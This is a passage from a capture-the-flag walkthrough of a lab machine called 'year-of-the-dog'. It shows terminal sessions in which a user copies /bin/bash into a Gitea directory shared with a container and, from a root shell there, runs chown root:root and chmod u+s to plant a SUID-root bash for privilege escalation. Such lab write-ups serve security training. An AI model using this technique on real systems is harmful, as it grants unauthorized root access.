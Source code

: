 Now for root in victim machine I need to transfer the victim machine bash file into the git shell or directory so that it can get the SUIDs permission from git root shell and that will work as effective SUID root for victim machine like this 🔻 

```bash
dylan@year-of-the-dog:/gitea/gitea$ cp /bin/bash .
dylan@year-of-the-dog:/gitea/gitea$ ls -al
total 2312
drwxr-xr-x 9 dylan dylan    4096 Mar 23 06:34 .
drwxr-xr-x 5 root  root     4096 Sep  5  2020 ..
drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 attachments
drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 avatars
-rwxr-xr-x 1 dylan dylan 1113504 Mar 23 06:34 bash
drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 conf
-rw-r--r-- 1 dylan dylan 1212416 Mar 23 05:57 gitea.db
drwxr-xr-x 4 dylan dylan    4096 Sep  5  2020 indexers
drwxr-xr-x 2 dylan dylan    4096 Sep  6  2020 log
drwxr-xr-x 6 dylan dylan    4096 Sep  5  2020 queues
drwx------ 7 dylan dylan    4096 Mar 23 05:31 sessions
dylan@year-of-the-dog:/gitea/gitea$
```
{: .nolineno}
{: .nolineno}

Now I have to own this file as root and give it SUIDs permissions like this ⏬

```bash
bash-5.0# ls -al
ls -al
total 2312
drwxr-xr-x    9 git      git           4096 Mar 23 06:34 .
drwxr-xr-x    5 root     root          4096 Sep  5  2020 ..
drwxr-xr-x    2 git      git           4096 Sep  5  2020 attachments
drwxr-xr-x    2 git      git           4096 Sep  5  2020 avatars
-rwxr-xr-x    1 git      git        1113504 Mar 23 06:34 bash
drwxr-xr-x    2 git      git           4096 Sep  5  2020 conf
-rw-r--r--    1 git      git        1212416 Mar 23 05:57 gitea.db
drwxr-xr-x    4 git      git           4096 Sep  5  2020 indexers
drwxr-xr-x    2 git      git           4096 Sep  6  2020 log
drwxr-xr-x    6 git      git           4096 Sep  5  2020 queues
drwx------    7 git      git           4096 Mar 23 05:31 sessions
bash-5.0# chown root:root bash
chown root:root bash
bash-5.0# ls -al
ls -al
total 2312
drwxr-xr-x    9 git      git           4096 Mar 23 06:34 .
drwxr-xr-x    5 root     root          4096 Sep  5  2020 ..
drwxr-xr-x    2 git      git           4096 Sep  5  2020 attachments
drwxr-xr-x    2 git      git           4096 Sep  5  2020 avatars
-rwxr-xr-x    1 root     root       1113504 Mar 23 06:34 bash
drwxr-xr-x    2 git      git           4096 Sep  5  2020 conf
-rw-r--r--    1 git      git        1212416 Mar 23 05:57 gitea.db
drwxr-xr-x    4 git      git           4096 Sep  5  2020 indexers
drwxr-xr-x    2 git      git           4096 Sep  6  2020 log
drwxr-xr-x    6 git      git           4096 Sep  5  2020 queues
drwx------    7 git      git           4096 Mar 23 05:31 sessions
bash-5.0# chmod u+s bash
chmod u+s bash
bash-5.0# ls -al
ls -al
total 2312
drwxr-xr-x    9 git      git           4096 Mar 23 06:34 .
drwxr-xr-x    5 root     root          4096 Sep  5  2020 ..
drwxr-xr-x    2 git      git           4096 Sep  5  2020 attachments
```